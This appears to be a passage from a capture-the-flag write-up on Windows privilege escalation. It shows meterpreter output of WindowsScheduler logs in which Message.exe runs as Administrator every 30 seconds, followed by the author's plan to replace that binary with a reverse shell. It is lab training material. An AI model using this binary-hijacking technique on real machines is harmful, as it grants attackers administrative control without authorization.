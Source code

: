 Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  1927   fil   2019-08-05 00:05:19 +0200  20198415519.INI
100666/rw-rw-rw-  18175  fil   2019-08-05 00:06:01 +0200  20198415519.INI_LOG.txt
100666/rw-rw-rw-  186    fil   2020-05-17 15:38:43 +0200  Administrator.flg
100666/rw-rw-rw-  182    fil   2020-05-17 15:38:18 +0200  SYSTEM_svc.flg
100666/rw-rw-rw-  0      fil   2020-05-17 15:38:43 +0200  Scheduler.flg
100666/rw-rw-rw-  449    fil   2019-08-04 13:36:53 +0200  SessionInfo.flg
100666/rw-rw-rw-  0      fil   2020-05-17 15:38:18 +0200  service.flg

meterpreter > cat 20198415519.INI_LOG.txt
08/04/19 15:06:01,Event Started Ok, (Administrator)
08/04/19 15:06:30,Process Ended. PID:2608,ExitCode:1,Message.exe (Administrator)
08/04/19 15:07:00,Event Started Ok, (Administrator)
08/04/19 15:07:34,Process Ended. PID:2680,ExitCode:4,Message.exe (Administrator)
08/04/19 15:08:00,Event Started Ok, (Administrator)
08/04/19 15:08:33,Process Ended. PID:2768,ExitCode:4,Message.exe (Administrator)
08/04/19 15:09:00,Event Started Ok, (Administrator)
08/04/19 15:09:34,Process Ended. PID:3024,ExitCode:4,Message.exe (Administrator)
08/04/19 15:10:00,Event Started Ok, (Administrator)
08/04/19 15:10:33,Process Ended. PID:1556,ExitCode:4,Message.exe (Administrator)
08/04/19 15:11:00,Event Started Ok, (Administrator)
08/04/19 15:11:33,Process Ended. PID:468,ExitCode:4,Message.exe (Administrator)
08/04/19 15:12:00,Event Started Ok, (Administrator)
08/04/19 15:12:33,Process Ended. PID:2244,ExitCode:4,Message.exe (Administrator)
08/04/19 15:13:00,Event Started Ok, (Administrator)
08/04/19 15:13:33,Process Ended. PID:1700,ExitCode:4,Message.exe (Administrator)
08/04/19 16:43:00,Event Started Ok,Can not display reminders while logged out. (SYSTEM_svc)*
08/04/19 16:44:01,Event Started Ok, (Administrator)
08/04/19 16:44:05,Process Ended. PID:2228,ExitCode:1,Message.exe (Administrator)
08/04/19 16:45:00,Event Started Ok, (Administrator)
08/04/19 16:45:20,Process Ended. PID:2640,ExitCode:1,Message.exe (Administrator)
08/04/19 16:46:00,Event Started Ok, (Administrator)
08/04/19 16:46:03,Process Ended. PID:2912,ExitCode:1,Message.exe (Administrator)
08/04/19 16:47:00,Event Started Ok, (Administrator)

...[SNIP]...

From the WindowsScheduler logs, we see that `Message.exe` is executed about every 30 seconds as administrator. We can take advantage of this to replace `Message.exe` with our reverse shell so that it is executed as adminstrator.

## #4.5 - Using this abnormal service, escalate your privileges! What is the user flag (on Jeffs Desktop)?

_Hint: Check exploit-db.com for a public writeup of this vulnerability. The missing binary isn’t the same as the public exploit._

Unfortunately, with our meterpreter, we have insufficient privileges to read the user flag and we can’t migrate to another process either:

meterpreter > cd users
meterpreter > ls
Listing: c:\users
=================
